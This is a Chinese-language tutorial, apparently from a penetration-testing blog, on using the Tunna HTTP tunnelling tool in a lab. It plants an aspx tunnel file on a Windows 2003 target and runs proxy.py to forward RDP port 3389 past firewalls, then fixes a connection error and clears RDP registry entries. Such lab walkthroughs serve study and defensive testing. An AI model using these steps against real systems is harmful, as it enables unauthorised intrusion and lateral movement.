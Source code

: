 ### 3.3 HTTP 隧道 Tunna

**Tunna简介：**

Tunna1.1 是 secforce 在2014年11月出品的一款基于HTTP隧道工具。其中v1.1中支持了SOCKS4a。

**Tunna演示稿：**

    https://drive.google.com/open?id=1PpB8_ks93isCaQMEUFf_cNvbDsBcsWzE
    
        

**Github：**

    https://github.com/SECFORCE/Tunna
    
        

**攻击机：**

    192.168.1.5 Debian
    192.168.1.4 Windows 7
    
        

**靶机：**

    192.168.1.119 Windows 2003
    
        

**安装：**

    root@John:~# git clone https://github.com/SECFORCE/Tunna.git
    Cloning into 'Tunna'...
    remote: Enumerating objects: 6, done.
    remote: Counting objects: 100% (6/6), done.
    remote: Compressing objects: 100% (6/6), done.
    remote: Total 156 (delta 0), reused 2 (delta 0), pack‐reused 150
    Receiving objects: 100% (156/156), 8.93 MiB | 25.00 KiB/s, done.
    Resolving deltas: 100% (84/84), done.
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222740664.png%23pic_center)-
**靶机执行：**

以aspx为demo

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222802892.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**攻击机执行：**

    python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222830104.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222836817.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**附录：**-
解决：`General Exception: [Errno 104] Connection reset by peer`

    [+] Spawning keep‐alive thread
    [‐] Keep‐alive thread not required
    [+] Checking for proxy: False
    
        

连接后，出现

    General Exception: [Errno 104] Connection reset by peer
    
        

等待出现：无法验证此远程计算机的身份，是否仍要连接？

再次运行，在点击是(Y)

    python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222944505.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222950939.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926222957324.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
如果：没有出现“无法验证此远程计算机的身份，是否仍要连接？”

注册表键值： HKEY\_CURRENT\_USER\\Software\\Microsoft\\Terminal Server Client\\Servers 删除对应IP键值即可。

Tunna对PHP的支持并不是太友好

    https://micro8.gitbook.io/micro8/contents-1/91-100/99http-sui-dao-tunna-di-san-ji
    
        

* * *